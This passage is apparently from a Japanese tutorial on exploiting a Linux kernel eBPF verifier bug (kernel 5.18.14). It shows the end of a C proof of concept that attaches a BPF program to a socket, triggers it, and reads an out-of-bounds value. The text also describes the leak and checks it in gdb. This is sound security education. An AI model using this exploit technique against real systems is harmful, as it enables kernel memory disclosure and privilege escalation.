 ```c
  /* ソケットを作成 */
  int socks[2];
  if (socketpair(AF_UNIX, SOCK_DGRAM, 0, socks))
    fatal("socketpair");
  if (setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(int)))
    fatal("setsockopt");

  /* ソケットを利用（BPFプログラムの発動） */
  write(socks[1], "Hello", 5);

  map_lookup(mapfd, 0, &val);
  printf("val = 0x%016lx\n", val);

  getchar();

  return 0;
}
```
このプログラムを**root権限で**実行すると、次のように、設定した覚えのない値が読めていることが分かります。

<center>
  <img src="img/simple_leak.png" alt="単純な範囲外参照" style="width:720px;">
</center>

実際にgdbで確認すると、マップのアドレスから0x100先にリークしたデータが存在します。

<center>
  <img src="img/gdb_simple_leak.png" alt="gdbで範囲外参照の値を確認" style="width:600px;">
</center>

なお、0x100という定数をMOVで渡すと、検証器に範囲外参照を検知されることから、脆弱性に起因して範囲外参照を起こせていることが分かります。


[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外